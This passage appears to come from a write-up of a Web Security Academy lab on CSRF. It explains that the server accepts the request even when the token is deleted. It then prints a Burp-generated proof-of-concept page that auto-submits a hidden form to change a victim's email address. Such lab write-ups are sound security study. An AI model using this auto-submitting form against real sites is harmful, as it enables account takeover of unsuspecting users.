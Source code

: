 ![Untitled](CSRF%20fd5308ba97fe4191835760cf7369a4dd/Untitled%208.png)

Result still success due to the CSRF is valid and server allowed to change the email address. So, what if we delete the CSRF, this time the server already stored the token. 

![Untitled](CSRF%20fd5308ba97fe4191835760cf7369a4dd/Untitled%209.png)

Prove that even delete the token, the change is still success due to the server just check for whatever the token still exist in its pool or not.

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a04003c03af41fcc06791e4007c00be.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="aloha&#64;normal&#45;user&#46;net" />
    </form>
	<script>document.forms[0].submit();</script>
  </body>
</html>
```
